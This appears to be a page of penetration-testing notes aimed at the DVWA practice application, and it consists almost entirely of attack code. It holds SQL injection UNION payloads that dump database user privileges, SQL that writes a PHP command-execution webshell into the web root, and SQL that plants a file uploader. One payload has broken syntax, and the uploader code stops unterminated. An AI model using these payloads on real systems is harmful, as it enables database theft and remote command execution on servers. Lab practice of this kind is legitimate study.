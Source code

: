 ```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', Select_priv, user, '->', Select_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', Select_priv) FROM mysql.user WHERE Select_priv='Y' OR WHERE Insert_priv='Y' OR WHERE Update_priv='Y' OR WHERE Delete_priv='Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE ''#
```

##### 2.2.5.2.1 - Simple Webshell

TODO: Replicate the methods from this video https://www.youtube.com/watch?v=FjgKtBAiLKQ

```sql
CREATE TABLE `dvwa`.`user_input`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_input values('<?php $cmd=$_GET["cmd"];system($cmd);?>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/shell.php' FROM user_input;
```

##### 2.2.5.2.2 - Uploader

```sql
CREATE TABLE `dvwa`.`user_upload`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_upload values('<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER["PHP_SELF"]; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST["submit"])) {
            if (!empty($_FILES["fileToUpload"]["name"])) {
                $targetDir = "./"; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES["fileToUpload"]["name"]);

                if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
```